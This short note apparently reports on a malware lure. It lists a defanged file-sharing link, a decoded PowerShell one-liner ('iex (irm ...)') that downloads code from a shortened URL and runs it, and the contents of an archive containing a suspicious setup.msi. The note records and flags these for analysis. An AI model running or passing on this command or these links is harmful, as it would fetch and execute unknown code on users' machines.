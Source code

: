 ## Copied code(Added [])
https://mega[.]nz/file/4vR0lTrZ#Pm2FUVPpqGbgDiixiz7WuNo_xf6XLCXxjW-oTCtKue0

## Decoded string(added []): iex (irm https://tinyurl[.]com/35nprk4j)  
Extracted  
+-2025 - PASSWORD.png  
+-Deluxe_App_v.2.2.7z  
  
In .7z  
+-setup.msi (may be virus)
